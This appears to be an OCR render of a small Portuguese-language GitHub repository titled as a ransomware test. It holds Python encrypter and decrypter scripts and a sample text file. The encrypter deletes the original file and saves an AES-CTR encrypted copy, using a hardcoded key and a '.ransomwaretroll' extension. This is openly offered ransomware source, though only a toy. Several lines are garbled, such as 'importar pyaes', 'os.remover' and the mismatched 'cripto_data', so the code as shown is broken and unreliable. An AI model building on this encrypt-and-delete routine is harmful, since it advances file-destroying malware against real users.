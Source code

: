 # ransomwareteste
Teste de um ataque Ransomware

DECRYPTER.PY

import os
importar pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descritografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## removedor do arquivo criptografado
os.remove(file_name)

## criar o arquivo descrito
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()


ENCRYPTER.PY
import os
importar pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open (file_name, "rb")
file_data = file.read()
file.close()

## removedor de arquivo
os.remover (file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(cripto_data)
new_file.close()


TESTE.TXT

Alo Brasil, vamos avanti sempre
